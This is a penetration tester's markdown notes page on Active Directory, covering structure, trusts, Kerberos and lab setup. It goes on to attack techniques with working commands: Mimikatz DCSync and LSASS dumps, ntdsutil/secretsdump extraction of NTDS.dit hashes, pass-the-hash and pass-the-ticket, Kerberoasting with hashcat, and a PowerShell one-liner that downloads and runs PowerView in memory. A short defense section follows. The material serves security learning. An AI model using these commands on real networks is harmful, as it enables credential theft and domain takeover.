


# Active Directory

## Quick References

- [Active Directory Kill Chain Attack & Defense](https://github.com/infosecn1nja/AD-Attack-Defense)


> https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc780036(v=ws.10)

- Introduction
  - Active Directory enables centralized, secure management of an entire network, which might span a building, a city, or multiple locations throughout the world.
  - These antiquated AD designs only focused on the:
    - Directory information tree
    - Delegation model
    - Group Policy Objects (GPOs) structure and accounts management
  - Securing privileged access - Active Directory administrative tier model: <https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material>
- Kerberos v5 used from Windows Server 2000+
- Naming conventions
  - User Principal name: `winsaafman@scriptdotsh.local`
  - DN (Distinguished Names) LDAP names: `CN=winsaafman,DC=corp,DC=scriptdotsh,DC=local`
    - CN = Common name
    - OU = Organisational Unit
    - DC = Domain


- Components
  - **Schema** - Defines objects and attributes
  - **Query and index mechanism** - Ability to search and publish objects and properties
  - **Global Catalog** - Contains info about every object in directory
  - **Replication Service** - Distributes information across domain controller
- Structure 
  - Forest - Security boundary, which may contain multiple `domains` and each domain may contain multiple `OU`s 
  - <https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759186(v%3dws.10)>
  - <https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759073(v%3dws.10)>
  - Organizational Units
    - Container object
    - Used to arrange other objects
    - Easier to locate and manage
    - Can delegate the authority to manage
    - Can be nested in other organizational units 
  - Domains
    - Container object
    - Collection of administratively defined objects that share a common directory database, security policies, and trust relationships with other domains
    - Each domain is an administrative boundary for objects.
    - A single domain can span multiple physical locations or sites
  - Domain Trees
    - Collections of domains that are grouped together in hierarchical structures
    - When you add a domain to a tree, it becomes a child of the tree root domain
    - The domain to which a child domain is attached is called the parent domain.
    - A child domain might in turn have its own child domain.
    - The name of a child domain is combined with the name of its parent domain to form its own unique Domain Name System (DNS) name such as Corp.nwtraders.msft.
    - .:. a tree has a contiguous namespace.
  - Forests
    - Instance of Active Directory
    - Each forest acts as a top-level container in that it houses all domain containers for that particular Active Directory instance
    - A forest can contain one or more domain container objects, all of which share a common logical structure, global catalog, directory schema, and directory configuration, as well as automatic two-way transitive trust relationships.
    - The first domain in the forest is called the `forest root domain`.
    - The name of that domain refers to the forest, such as Nwtraders.msft.
    - By default, information in Active Directory is shared only within the forest.
    - .:. the forest is a security boundary for the information that is contained in that instance of Active Directory
  - Site Objects
    - Leaf and container objects
    - Topmost object in the hierarchy of objects that are used to manage and implement Active Directory replication
    - Stores the hierarchy of objects that are used by the `Knowledge Consistency Checker (KCC)` to effect the replication topology
    - Some of the objects located in: `NTDS Site Settings objects`, `subnet objects`, `connection objects`, `server objects`, and `site objects` (one site object for each site in the forest)
    - Hierarchy is displayed as the contents of the Sites container, which is a child of the Configuration container

- SYSVOL
  - Ref: [https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx)
  * Folder which resides on each and every [domain controller](http://social.technet.microsoft.com/wiki/contents/articles/16757.active-directory-glossary.aspx#Domain_Controller) within the [domain](http://social.technet.microsoft.com/wiki/contents/articles/16757.active-directory-glossary.aspx#Domain).
  * Contains the domains public files that need to be accessed by clients and kept synchronised between domain controllers.
  * Default location is `C:\Windows\SYSVOL`
  * The SYSVOL folder can be accessed through:
    * share `\\domainname.com\sysvol`
    * or the local share name on the server `\\servername\sysvol`.
  * Uses [DFS](http://social.technet.microsoft.com/wiki/contents/articles/16757.active-directory-glossary.aspx#DFS) to share the relevant folders to users and clients. - Distributed File System. Client and server services that allow servers to organize distributed file shares into a distributed file system.
  * [File Replication Service - FRS](http://social.technet.microsoft.com/wiki/contents/articles/16757.active-directory-glossary.aspx#FRS) is a multi-master, multi-threaded replication technology.
    * Introduced in Windows 2000 to replace the previous LMREPL technology used in NT3.x and 4 days
    * Ageing Cache - Detects the change by monitoring the NTFS USN journal (stored in NTFRS database) (every 3 seconds)
    * Replaced by DFSR (Distributed File System Replication) in Windows 2008 or higher
      * Auto-healing functions in place to remedy some of the issues that FRS
      * Instead of replicating entire files we only replicate the chunks of data that have changed
      * Based on [MD4](http://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#MD4) hash of the file
  - `The log contains information about the file and the time it was changed, this is then used to build its change message. To ensure the file and all it’s attributes (i.e. permissions) are kept intact FRS calls the backup [API](http://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#API)which uses [VSS](http://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#VSS) technology to take a snapshot of the file and it’s attributes. This backup file is then compressed and stored in the staging area folder. At this point the outbound log is updated (again this is actually a table within the FRS database). This contains information about all the changes for a specified replication set. If in step 1 a file was deleted rather than created then we don’t create a staging file, but the outbound log reflects the deletion. FRS on DC1 then sends a change notification to its replication partner DC2. DC2 adds the information about the change into its inbound log and accepts the change then sends a change acknowledgment back to DC1. DC2 then copies the file from DC1 into its staging area. It then writes an entry to its outbound log to allow other partners to pickup the change. DC2 then calls the backup API to restore the file from the staging area into the SYSVOL folder. So there you have it, FRS replication. There is a very detailed and in-depth reference guide on TechNet[here](http://technet.microsoft.com/en-us/library/cc758169(v=WS.10).aspx) for further reference.`

- Detect Firewall Blocking AD
  - <https://blogs.msmvps.com/acefekay/2011/11/01/active-directory-firewall-ports-let-s-try-to-make-this-simple/>
  - PortQryUI - <http://www.microsoft.com/download/en/details.aspx?id=24009>
  - Run the “Domains & Trusts” option between DCs, or between DCs and any machine
  - “NOTLISTENING,” 0x00000001, and 0x00000002, that means there is a port block
  - Can ignore UDP 389 and UDP 88 messages
  - TCP 42 errors, that just means WINS is not running on the target server

### AD Trust Types


- Ref:<https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png>

| **Trust Type** | **Property** | **Trust** **Direction** | **Auth.**           | **Details**                                                  |
| -------------- | ------------ | ----------------------- | ------------------- | ------------------------------------------------------------ |
| Tree-Root      | Transitive   | Two-way                 | Kerberos V5 or NTLM | Created automatically when a new Tree is added to a forest.  |
| Parent-Child   | Transitive   | Two-way                 | Kerberos V5 or NTLM | Created automatically when a child domain is added.          |
| Shortcut       | Transitive   | One-way or Two-way      | Kerberos V5 or NTLM | Created Manually. Used in a forest to shorten the trust path to improve authentication times. |
| Forest         | Transitive   | One-way or Two-way      | Kerberos V5 or NTLM | Created Manually. Used to share resources between AD DS forests. |

### Kerberos Process Across Trust Boundaries

> Ref:  https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png


A client from Domain 1 wants to access the server located in Domain 2.

1. A client from Domain1 requests a TGT from the DC1.
2. DC1 responds back with the TGT (encrypted with krbtgt hash)
3. Client shows the TGT and requests a TGS for accessing the server in Domain2.
  - As DC1 doesn’t find the server in current domain and realizes that the TGS needs to be issued by the DC2 (of Domain2) because the server is located in the Domain2. So it responds back to client with the Inter-realm TGT.
4. Client shows the TGT encrypted with Inter-Realm trust key to DC2 in the Domain2 and requests TGS to access the server.
5. DC2 sends back the TGS for Server encrypted with server’s account hash.
6. Client presents the TGS (encrypted with server’s account hash) to the server for access.

**Scope of Authentication**

- Forest-wide authentication -  Users from the outside forest have the same level of access to resources in the local forest as users who belong to the local forest.
- Selective authentication - You need to manually assign permissions on each computer in the domain as well as the resources to which you want users in the second forest to have access (by editing ACE (Access control entry)).

## Setup

```powershell
Install-windowsfeature AD-domain-services
Install-WindowsFeature RSAT-ADDS

Import-Module ADDSDeployment
Install-ADDSForest -CreateDnsDelegation:$false ` -DatabasePath "C:\Windows\NTDS" ` -DomainMode "Win2012R2" ` -DomainName "server1.hacklab.local" ` -DomainNetbiosName "server1" `  -ForestMode "Win2012R2" `  -InstallDns:$true `  -LogPath "C:\Windows\NTDS" `  -NoRebootOnCompletion:$false `  -SysvolPath "C:\Windows\SYSVOL" `  -Force:$true
```

- Download VMs: <https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/>
- SysPrep When and How: <https://thesolving.com/server-room/when-and-how-to-use-sysprep/>
- Add user
  - `net user user1 Passw0rd! /ADD /DOMAIN`
  - `New-ADUser -Name "Winsaaf Man" -DisplayName "Winsaaf Man" -SamAccountName “winsaaf.man” -UserPrincipalName “winsaaf.man@scriptdotsh.local” -GivenName “winsaaf” -Surname "man" -AccountPassword (Read-host -AsSecureString “Enter Password”) -Enabled $true -server scriptdotsh.local`
    - More options:
      - `-ChangePasswordAtLogon $false`
      - `-PasswordNeverExpires $true`
  - Bulk addition: <https://gallery.technet.microsoft.com/office/Create-Contoso-Users-in-3e2f38f2/view/Discussions>
- View users: `net users /domain`
- View group: `net group /domain "Domain Admins"`

## Tools

### Mimikatz

- Utilises the Directory Replication Service (DRS) to retrieve the password hashes from the NTDS.DIT file
    ```
    lsadump::dcsync /domain:pentestlab.local /all /csv
    lsadump::dcsync /domain:pentestlab.local /user:test
    ```
- Executing Mimikatz directly in the domain controller password hashes can be dumped via the lsass.exe process
    ```
    privilege::debug
    lsadump::lsa /inject
    ```

### CrackMapExec

- Automate assessing the security of large Active Directory networks
    ```
    crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
    crackmapexec smb <target(s)> -u username -H NTHASH
    ```

### ldapsearch

- Query the Domain Controller for Active Directory
  - UserAccountControl attributes of active accounts
  - Other specific configurations
- Possible UserAccountControl values: <https://support.microsoft.com/en-gb/help/305144/how-to-use-the-useraccountcontrol-flags-to-manipulate-user-account-pro>
- Active users (2 == disabled account status)

```bash
ldapsearch -x -h $ip -p 389 -D 'SVC_TGS'​ -w ​$password -b ​ "dc=active,dc=htb"​ -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))"​ samaccountname
```

### ldapdomaindump 

```
ldapdomaindump -u example\example 10.10.10.10
```


### Impacket

- GetADUsers.py - Enumerate domain user accounts
    ```
    GetADUsers.py -all active.htb/svc_tgs -dc-ip $ip
    ```

## Enumeration

- Tips: 
  - Run AD enumerations on each box you get access to.
- Tools 
  - Automating AD Enumeration (Bloodhound, PowerUp, Responder, CrackMapExec): <https://medium.com/bugbountywriteup/automating-ad-enumeration-with-frameworks-f8c7449563be>
  - Scan: 
      ```
      pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
      ```

### Using PowerShell and Built-ins

- Works in [Constrained Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) as well.
- <https://github.com/winsaafman/Scriptdotsh-ActiveDirectory/raw/master/Microsoft.ActiveDirectory.Management.dll>

```powershell
C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\Microsoft.ActiveDirectory.Management.dll
```
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
```

- Domain: `Get-ADDomain`
- SID: `Get-DomainSID` = `Get-ADDomain.DomainSID.Value`
- Domain Controller: `GET-ADDomainController`
- Users: 
  - `Get-ADUser -Filter *`
  - `Get-ADUser -Filter * -Properties *`
  - `Get-ADUser -Server pc1.powershell.local`
  - `Get-ADUser -Identity labuser`
- Groups : 
  - `Get-ADGroup -Filter *`
  - `Get-ADGroup -Filter * | Select Name`
  - `Get-ADGroup -Filter {Name -like "*admin*"} | Select Name`
- Filter Groups for User: `Get-ADGroup -Filter {Name -like "*admin*"} | select name, GroupScope`
- Group Members:
  - `Get-ADGroupMember -Identity "Domain Admins" -Recursive`
  - `Get-AdPrincipalGroupMembership -Identity "labuser"`
- Computers: `Get-AdComputer -Filter * -Properties *`
- ACL for AD objects: (without resolving GUIDs)
  - `(Get-Acl 'AD:\CN=labuser,CN=Users,DC=example,DC=powershell,DC=local').Access`
- Trust
  - `Get-AdTrust -Filter *`
  - `Get-AdTrust -Filter * -Identify example.powershell.local`
- Forest: 
  - `Get-ADForest`
  - `Get-ADForest -Identify powershell.local`
  - Get all domains in current forest:
    - `(Get-ADForest).Domains` 
- Forest Trust
  - `Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'`

### PowerView

```
./PowerView.ps1
```
- Current domain information: `Get-NetDomain`
- Domain information: `Get-NetDomain -Domain powershell.local` (info of domains where there is a trust relationship)
- Domain Controller: `Get-NetDomainController`
- Users: 
  - `Get-NetUser` 
  - `Get-NetUser -Domain powershell.local` 
  - `Get-NetUser -UserName labuser`
- Groups: 
  - `Get-NetGroup`
  - `Get-NetGroup *admin*`
- Group Members:
  - `Get-NetGroupMembers -GroupName "Domain Admins"`
  - `Get-NetGroup -UserName "labuser"`
  - Check if current user context has local-admin access to hosts in the domain: `Find-LocalAdminAccess -Verbose`
  - Enumerate members of local-admin groups across all machines: `Invoke-EnumerateLocalAdmin -Verbose`
    - 2016+ responded only by boxes where current user have local-admin access
- Computers: `Get-NetComputer -FullData`
- Sessions: 
  - `Get-NetSession`
  - List sessions on a computer: `Get-NetSession -ComputerName pc1`
  - Find computers where domain admin is logged in and current user has access: `Invoke-UserHunter -CheckAccess`
    - Based on list of machines from DC
    - List of sessions 
    - Logged on users from each machine
- Shares (?) 
- ACL for AD objects: 
  - `Get-ObjectAcl`
  - `Get-ObjectAcl -SamAccountName labuser -ResolveGUIDs`
  - `Get-ObjectACL -AdSprefix 'CN=Administrator,CN=Users' -Verbose`
  - Look for  all interesting ACL entries: `Invoke-ACLScanner -ResolveGUIDs` (write modify)
    - Filter using `IdentifyReference` to identify what current user has interesting access to
- Trust
  - `Get-NetDomainTrust`
  - `Get-NetDomainTrust -Domain example.powershell.local`
- Forest: 
  - `Get-NetForest`
  - `Get-NetForest -Forest powershell.local`
  - Get all domains in current forest:
    - `Get-NetForestDomain`
    - `Get-NetForestDomain -Forest powershell.local`
- Forest Trust
  - `Get-NetForestTrust`
  - `Get-NetForestTrust -Domain example.local`
  
```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain"
```


### Snapshot for Offline Analysis

- Using [https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
- Download: [https://live.sysinternals.com/](https://live.sysinternals.com/)
- UNC path: `\\live.sysinternals.com\tools`

### [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

- Finds groups and group members of each group.
- Gets Domain computers in the domain.
- Obtain local admins for each computer.
- List Active sessions on each computer.
- And then creates relationships between all these findings.

## Attack Patterns


> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)

### Dumping AD Credentials

#### secretsdump
Need domain admin credentials:
```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

#### NTDS.dit

- AD data stored in: ` %SYSTEMROOT%\NTDS\ntds.dit`
  - Cannot be copied directly to another location
  - Can be extracted using
    - Domain Controller Replication Services
    - Native Windows Binaries
    - WMI
    - Backups / External Storage for DC
    - VMWare / HyperV for virtual DCs
      - VMWare admin can call virtual DC within VMWare
      - Clone a DC and copy the storage file
      - No events triggered
    - NTDSUtil
      - DC Promo has to copy from another DC
      - But if NTDSUtil was used to create an IMF (Install From Media), it makes a copy of NTDS.dit
        - Can use NTDSUtil to create an IMF or look for IMF in network
- Extraction techniques and tools: [https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/ - Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

Steps:

- cmd.exe as Administrator
- ntdsutil
```
snapshot
activate instance NTDS
create

mount <UUID>
```
- copy NTDS.dit (located in Windows\NTDS\NTDS.dit by default)
- ntdsutil
```
unmount <UUID>
delete <UUID>
quit
quit
```
```
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
```
```
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
```

#### Dumping Credentials on DC

- Take memory dump of LSASS process using task manager and use Mimikatz offline
- Run Mimikatz on DC
- Invoke-Mimikatz on DC via PS remoting

### Pass the Hash


> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)


- In typical scenario:
  - User type the password
  - LSASS hash the password (LM, NTLM) and send it to service for authentication
- In attack scenario:
  - Attacker pass the hash (LM, NTML) itself to LSASS which is sent to service
- Preventions
  - Disable NTML hashes
  - "Protected Users" group
  - Do not leave lot of NTLM authentication footprint in eventless

### Over Pass the Hash / Pass the Key

> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)


- If NTLM hash is available, encrypt timestamp with hash and sent it to **KDC** in **AS-REQ** to get a **TGT**
- Keys are in:
  - Client LSASS memory
    - Prevented by "Protected Users" group
  - Active Directory
    - NTDS.dit and SYSTEM hive
    - Offline
      - [Tool] NTDSXtract
      - `python DSUser.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.7 ./work -name Administrator --syshive SYSTEM --supplcreds --passwordhashes --lmoutfile ./lm --ntoutfile ./nt --pwdformat john`
      - `privilege::debug    sekurlsa::ekeys`
    - Online
      - `privilege::debug    lsadump::lsa /inject /name:Administrator `
- Keys are in:
  - DES
  - RC4 - Non domain salted NTML hash
  - AES128 AES256 keys (NT6+)
    - Use PBKDF2
    - Salted
    - 4096 iterations
    - Cracking is difficult
- Over pass the hash
  - `privilege::debug    sekurlsa::pth /user:Administrator /domain:<DomainName> /ntlm:<Hash>`
- References
  - [http://www.janua.fr/active-directory-vulnerability-disclosure-weak-encryption-enables-attacker-to-change-victims-password-without-being-logged/](http://www.janua.fr/active-directory-vulnerability-disclosure-weak-encryption-enables-attacker-to-change-victims-password-without-being-logged/)

### Pass the Ticket




> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)


- **Inject the TGT** in to the LSASS Kerberos Provider
  - Do not ask the KDC for the TGT, instead ask the KDC to give us a TGS
- Can also **inject TGS** in to the LSASS Kerberos Provider
- Exporting from memory:
  - API only allow exporting current user's tickets (your tickets)
  - TGT: AllowTgtSessionKey reg-key must be set
  - TGS: No restrictions
- [http://msdn.microsoft.com/library/windows/desktop/aa378099.aspx](http://msdn.microsoft.com/library/windows/desktop/aa378099.aspx)

```
LsaCallAuthenticationPackage/KerbRetrieveEncodedTicketMessage
LsaCallAuthenticationPackage/KerbSubmitTicketMessage
```

```
mimikatz > kerberos::list [/export]
mimikatz > kerberos::ptt ticket
```

- For all users in LSASS memory:

```
privilege::debug
sekurlsa::tickets export
kerberos:ptt <ticket.kirbi>
```

### DCSyc

- Used to sync AD to Azure
- Can be used to get credentials from AD
  - If `reverse encryption` is enabled for an account, clear text password can be obtained.
- Needs Administrator or Domain Controller rights
- By default, no logs since this is done through official RPC (remotely)
- Implemented by: Mimikatz (lsadump:dcsync), Impacket, DSInternals



- DCSync is easy to detected

### NRPC (NetLogon)

- When you have domain admin account for one DC, can as another DC to send all NTLM hashed of computer accounts and domain controller accounts.
- Can be used to create silver tickets.   
- If you have rights flip some bytes of the account, can make a normal user account a workstation account. Can be used to get user accounts using this.

### Microsoft Windows AD Kerberos Tickets

- Gather tickets 
    ```
    GetUserSPNs.py -request (HOST.DOMAIN)/(VALID SMB USER):(USER PASSWORD)
    ```
- Crack
    ```
    -a 0 - Straight cracking mode
    -m 13100 - Hashtype 13100 - which is Kerberos 5 TGS-REP etype 23
    the kerberos.ticket file
    -w 3 - Suggested example "workload" setting for Hashcat

    .\hashcat64.exe -m 13100 -a 0 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\kerberos.tick
    et' -w 3 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\rockyou.txt'
    hashcat (v5.1.0) starting...
    ```

## Defense 

- Use unique and strong local admin account passwords
- Use Microsoft LAPS to automate local admin password changes
- KB2871997 to disallow local account logon across the network 
  - <https://technet.microsoft.com/library/security/2871997>
  - Microsoft has definitely raised the bar: accounts that are members of the localgroup “Administrators” are no longer able to execute code with WMI or PSEXEC, use schtasks or at, or even browse the open shares on the target machine. Oh, except (as pwnag3 reports and our experiences confirm) the RID 500 built-in Administrator account, even if it’s renamed.
- Limit workstation to workstation communication
- Implement network segmentation
- Never run services with domain-admin privileged accounts on workstations (avoid dumping from LSASS)
- Install patch (), so that LSASS will not store plain text password 
- Done't use unconstrained delegation (this stores user's delegated TGS in LSASS). Only use constrained delegation.
- Disable delegation for admin accounts (Check: Account is sensitive and cannot be delegated).
  - Detect based on delegation events.

- Active Directory Core Security Principles & Best Practices:  <https://ernw.de/download/AD_Summit_2018/01_AD_Summit_CoreSecPrinciples_fk_hw_v.1.2_signed.pdf>
- Active Directory Kill Chain Attack & Defense: <https://github.com/infosecn1nja/AD-Attack-Defense>
- Microsoft-Blue-Forest: <https://github.com/rootsecdev/Microsoft-Blue-Forest>
  - Welcome to building your first domain controller!: <https://github.com/rootsecdev/Microsoft-Blue-Forest/blob/master/FirstDomainControllerInstall.md>
- Pwn and Defend - Active Directory Domain Enumeration: <https://www.youtube.com/watch?v=YxeXfHkHAUI&feature=youtu.be>
- Implementing Least Privilege Model: <https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/implementing-least-privilege-administrative-models>

- `NetCease.ps1` to prevent session enumeration on AD computers 

## References

- <https://adsecurity.org/>
- Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory: <https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html>
- Escalating privileges with ACLs in Active Directory: <https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/>

- <https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges>
- <https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting>
- <https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets>
- <https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/>
- <https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a>

- <https://blog.stealthbits.com/performing-domain-reconnaissance-using-powershell>
- <https://blog.stealthbits.com/local-admin-mapping-bloodhound>
- <https://blog.stealthbits.com/extracting-password-hashes-from-the-ntds-dit-file/>
- <https://blog.stealthbits.com/passing-the-hash-with-mimikatz>
- <https://blog.stealthbits.com/what-is-dcsync-an-introduction/>

- <https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/>
- <https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/>

- <https://blog.ropnop.com/practical-usage-of-ntlm-hashes/>
- <https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/>
- <https://blog.ropnop.com/using-credentials-to-own-windows-boxes/>
- <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/>

- <https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/>
- <https://0xdarkvortex.dev/index.php/2018/08/26/active-directory-penetration-dojo-setup-of-ad-penetration-labpart-2/>
- <https://0xdarkvortex.dev/index.php/2018/10/29/active-directory-penetration-dojo-creation-of-forest-trustpart-3/>

- <https://www.attackdebris.com/?p=470>
- <https://blog.didierstevens.com/2016/08/12/mimikatz-golden-ticket-dcsync/>

- <https://adsecurity.org/?p=2362>

- <https://pentestlab.blog/tag/ntds-dit/>

- <http://www.harmj0y.net/blog/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/>
- <http://passing-the-hash.blogspot.com/>

- <http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html>
- <https://room362.com/post/2017/reset-ad-user-password-with-linux/>

- <https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a>

- <https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a>
- TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory: <https://www.youtube.com/watch?v=JEIR5oGCwdg>
- Azure AD Connect for Red Teamers: <https://blog.xpnsec.com/azuread-connect-for-redteam/>
- <https://github.com/hausec/PowerZure>

- How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller: <https://adsecurity.org/?p=451>
- Attack Methods for Gaining Domain Admin Rights in Active Directory: <https://adsecurity.org/?p=2362>
- Mimikatz DCSync Usage, Exploitation, and Detection: <https://adsecurity.org/?p=1729>
- How Attackers Dump Active Directory Database Credentials: <https://adsecurity.org/?p=2398>